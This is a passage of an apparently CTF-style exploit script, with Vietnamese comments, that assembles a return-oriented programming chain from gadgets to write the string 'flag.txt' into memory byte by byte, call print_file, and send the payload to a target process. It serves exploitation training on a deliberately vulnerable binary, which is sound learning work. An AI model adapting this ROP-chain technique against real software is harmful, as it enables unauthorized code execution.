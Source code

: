 ```
	0x3000,
	l_char-0x3ef2-0x66,
	xlat,
	pop_rdi_ret,
	null_addr + 1,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi a vào 0x6010f2
	0x3000,
	a_char-0x3ef2-0x6c,
	xlat,
	pop_rdi_ret,
	null_addr + 2,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi g vào 0x6010f3
	0x3000,
	g_char-0x3ef2-0x61,
	xlat,
	pop_rdi_ret,
	null_addr + 3,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi . vào 0x6010f4
	0x3000,
	dot_char-0x3ef2-0x67,
	xlat,
	pop_rdi_ret,
	null_addr + 4,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi t vào 0x6010f5
	0x3000,
	t_char-0x3ef2-0x2e,
	xlat,
	pop_rdi_ret,
	null_addr + 5,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi x vào 0x6010f6
	0x3000,
	x_char-0x3ef2-0x74,
	xlat,
	pop_rdi_ret,
	null_addr + 6,
	xtos,
	
	pop_rdx_rcx_addrcx,             #ghi t vào 0x6010f7
	0x3000,
	t_char-0x3ef2-0x78,
	xlat,
	pop_rdi_ret,
	null_addr + 7,
	xtos,
	
	pop_rdi_ret,                    #đưa địa chỉ 0x6010f0 chứa chuỗi "flag.txt" vào rdi và call print_file
	null_addr,
	vuln+9	
    )

p.sendlineafter(b">",payload1)
p.interactive()
```